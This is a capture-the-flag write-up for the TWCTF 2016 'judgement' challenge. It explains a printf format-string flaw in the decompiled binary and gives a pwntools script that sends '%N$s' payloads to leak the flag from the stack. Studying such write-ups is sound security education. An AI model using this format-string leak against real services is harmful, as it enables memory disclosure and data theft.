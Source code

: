 ```yaml
---
title: '[TWCTF-2016: PWN] judgement Writeup'
author: Megabeets
type: post
date: 2016-09-04T23:54:32+00:00
url: /twctf-2016-pwn-judgement/
categories:
  - TWCTF 2016
  - Writeups
tags:
  - CTF
  - PWN
  - TWCTF
  - Writeups

---
```

Guest post by Shak.

> **Challenge description:**  
> _Host : pwn1.chal.ctf.westerns.tokyo_  
> _Port : 31729_  
> [judgement][1]{.attachment}

* * *

<pre class="theme:plain-white striped:true lang:sh decode:true">[Megabeets]$ nc pwn1.chal.ctf.westerns.tokyo 31729
Flag judgment system
Input flag &gt;&gt; FLAG
FLAG
Wrong flag...
</pre>

<span style="font-weight: 400;">Let’s check the binary. The following function is reading the flag from a local file on the server, so this binary will not reveal the flag, but further examining it might.</span>

<pre class="toolbar:1 lang:c decode:true " title="From Hex-Rays Decompiler">int __cdecl load_flag(char *filename, char *s, int n)
{
  int result; // eax@2
  FILE *stream; // [sp+18h] [bp-10h]@1
  char *v5; // [sp+1Ch] [bp-Ch]@5

  stream = fopen(filename, "r");
  if ( stream ) {
    if ( fgets(s, n, stream) ) {
      v5 = strchr(s, 10);
      if ( v5 )
        *v5 = 0;
      result = 1;
    }
    else { result = 0;}
  }
  else { result = 0; }
  return result;
}
</pre>

<span style="font-weight: 400;">Next we can see the main function which gets our input and compares it to the flag. </span>

<pre class="toolbar:1 lang:c decode:true " title="From Hex-Rays Decompiler">int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // esp@1
  int result; // eax@2
  int v5; // ecx@6
  char input; // [sp+0h] [bp-4Ch]@1
  int v7; // [sp+40h] [bp-Ch]@1
  int *v8; // [sp+48h] [bp-4h]@1

  v8 = &argc;
  v7 = *MK_FP(__GS__, 20);
  v3 = alloca(144);
  printf("Flag judgment system\nInput flag &gt;&gt; ");
  if ( getnline(&input, 64) ) {
    printf(&input);
    if ( !strcmp(&input, flag) )
      result = puts("\nCorrect flag!!");
    else
      result = puts("\nWrong flag...");
  }
  else {
    puts("Unprintable character");
    result = -1;
  }
  v5 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}
</pre>

<span style="font-weight: 400;">What it also does, is printing our input with no formatting (line 15), which means we can use <em>printf</em> format to read data from the stack. First of all, let’s check if this will work by trying to print the second value from the stack as a string</span>

<pre class="theme:plain-white lang:sh decode:true">Flag judgment system
Input flag &gt;&gt; %2$s
פJr≈
Wrong flag…</pre>

<span style="font-weight: 400;">It works, but no luck there. I wrote a simple python script that will print the first 300 values from the stack and search for the flag:</span>

<pre class="lang:python decode:true ">#!/usr/bin/python

from pwn import *

for i in xrange(1,300):
        r = remote('pwn1.chal.ctf.westerns.tokyo', 31729)
        r.recv()
        r.sendline("%{}$s".format(i))
        try:
                res = r.recv()
                if "TWCTF" in res:
                        print "The flag is: " + res
                        break
        except:
                pass
        r.close()</pre>

<span style="font-weight: 400;">And indeed we get it:</span>

<pre class="theme:plain-white lang:sh mark:8 decode:true ">[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 31729
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
.
.
.
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
The flag is: TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
Wrong flag...
</pre>

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img class="wp-image-149 alignnone" src="https://www.megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies</a>
  </p>
</div>

 [1]: https://twctf7qygt6ujk.azureedge.net/uploads/judgement-4da7533784aa31b96ca158fbda9677ee8507781ead6625dc6d577fd5d2ff697c
